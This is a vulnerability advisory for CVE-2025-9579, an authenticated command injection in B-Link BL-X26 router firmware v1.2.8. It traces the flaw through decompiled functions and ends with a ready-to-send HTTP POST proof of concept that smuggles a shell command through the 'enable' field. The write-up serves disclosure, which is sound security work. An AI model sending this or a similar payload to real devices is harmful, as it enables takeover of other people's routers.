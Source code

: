 # CVE-2025-9579

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## **Basic Information**

- **Vendor:** B-Link
- **Vendor Website:** https://www.b-link.net.cn/
- **Affected Device Type:** Router
- **Affected Product:** BL-X26
- **Affected Product Version:** v1.2.8

## 1. Vulnerability Overview

B-Link X26 router V1.2.8 version has a command execution vulnerability. Triggering this vulnerability requires authorization. Once the attacker obtains authorization, he can trigger the vulnerability by sending a malicious HTTP POST request.



## 2. Vulnerability Details

When the request path is set_hidessid_cfg, it will enter the processing logic of the sub_44F9F4 function

![](img/1.png)

You can see that two fields are set to values: type and enable. The parameters are then packaged into a JSON object and passed to the bs_SetSSIDHide function.

The bs_SetSSIDHide function is encapsulated in the libshare-0.0.26.so library.

![](img/2.png)

It can be found that bs_SetSSIDHide takes the values of the two json format objects passed in, and then there is a judgment, the type value is sethide2 to bypass this if branch

![](img/3.png)

Here you will find that the command v19 is executed, and v19 is spliced from v7, and v7 is the value enabled, which is the value passed in at the beginning.

![](img/4.png)

![](img/5.png)

Then there is a libc function related command execution

## 3. POC

POST /goform/set_hidessid_cfg HTTP/1.1

Host: 192.168.16.1

Content-Length: 43

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Edg/139.0.0.0

Accept: application/json, text/javascript, */*; q=0.01

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Origin: http://192.168.16.1

Referer: http://192.168.16.1/admin/more.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: user=admin; platform=0

Connection: keep-alive

 

type=sethide2&enable=`ls>/etc_ro/web/3.txt`



![](img/6.png)

![](img/7.png)

